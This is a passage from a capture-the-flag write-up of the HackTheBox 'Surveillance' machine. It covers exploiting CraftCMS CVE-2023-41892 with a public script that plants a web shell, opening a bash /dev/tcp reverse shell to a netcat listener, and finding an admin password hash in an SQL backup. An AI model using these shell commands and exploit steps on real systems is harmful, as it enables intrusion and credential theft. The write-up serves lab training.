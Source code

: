 A quick google search for "CraftCMS 4.4 exploit" finds one right away! We'll clone the repository and download requirements with `git clone https://github.com/Faelian/CraftCMS_CVE-2023-41892 && pip3 install requests`.


# Exploiting outdated software

Giving the exploit a read reveals what it is doing:

- First, it attempts to execute phpinfo() to ensure that the CMS is vulnerable.
- Next, it creates and uploads a reverse shell to the site.
- If it succeeds, we will be served with a shell. It is worth noting that we can also execute commands from the URL at \<IP>/shell.php?cmd=\<command>

Running `python3 craft-cms.py http://surveillance.htb` gives us a shell as www-data! I personally didn't love this shell, so I opened a netcat listener on my Kali Linux host with `nc -lvnp 9995`, grabbed a bash reverse shell command from [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#reverse-shell), added my IP and port number, and ran the command: `bash -c 'bash -i >& /dev/tcp/10.10.16.16/9995 0>&1'`. I'm picky, so I decided to upgrade this reverse shell too:

```
python3 -c 'import pty;pty.spawn("/bin/bash")
export TERM=xterm-256color
^Z
stty -raw echo; fg
reset
```

This gave me a nice, fully interactive shell. Unfortunately, the user flag is nowhere to be found.


# Finding the user flag

 It looks like the flag must be in another user's home directory: either matthew or zoneminder. I tried some basic enumeration by checking sudo -l, looking for readable home directories, and running linpeas, but to no avail. I ended up going through files in the web directory and grepping them for usernames, passwords, and other relevant strings.

Eventually, I ended up in ~/html/craft/storage/backups, which contained a single SQL zip file. Running `unzip <file>` followed by `grep -i 'matthew\|zoneminder\|root\|password' <file>` (which is an case-insensitive search for matthew, zoneminder, root, and password) reveals an interesting line:

```
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
```

It appears to be a SHA256 hash, which hashid seems to agree with.


![A screenshot of a Linux terminal. The command "hashid" has been run, identifying a given hash as one of a number of hashes, including SHA256.](https://github.com/massey-n/CTF-Writeups/blob/main/HackTheBox/images/image-2.png)
